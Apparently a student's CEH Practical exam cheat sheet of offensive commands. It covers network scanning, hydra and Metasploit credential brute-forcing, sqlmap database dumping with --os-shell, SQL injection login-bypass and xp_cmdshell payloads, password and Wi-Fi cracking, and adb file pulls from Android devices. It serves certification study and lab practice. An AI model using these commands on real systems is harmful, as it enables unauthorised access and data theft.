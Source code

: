 # Scanning

```console
*netdiscover -r x.x.x.1/24
*nmap -sP x.x.x.1/24                 
*nmap -sn x.x.x.1/24
*nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
*nmap --script ftp-brute -p 21 <host>
*Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
*Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

==== Crack SMB credentials ====

1) hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb

2) Metasploit

For Cracking SMB Password:
•	we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
•	>msfconsole .
•	>use auxiliary/scanner/smb/smb_login
•	>show option | To get an idea of what to set on
•	>set PASS_FILE ./ROKYOU.TXT
•	>set rhost {target IP address} | notes :- rhost means remote host
•	>set SMBUser name [of the user] | (generally Administrator is username)
•	>run

=== Bruteforce SSH, TELNET, FTP  ===

hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet

hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

•	If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

	
•	Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


==== Vulnerability Scanning ====

1) Nessus

Nessus runs on https[:]//localhost[:]8834

2) nikto -h 

===== Hidden text ====

1) snow -C -p "magic" readme2.txt

2) steghide 

==== WIRESHARK ====



To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21


https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

====== SQL ======

SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


=== PASSWORD CRACKING ===

john --single --format=md5crypt crack.txt

=== WIFI ENCYRPTION CRACKING ===

aircrack-ng -w rockyou.txt capture-01.cap


=== VERACRYPT ===


=== CUSTOM WORDLIST ===

=== MOBILE ===

ADB
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

== resources ==

https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

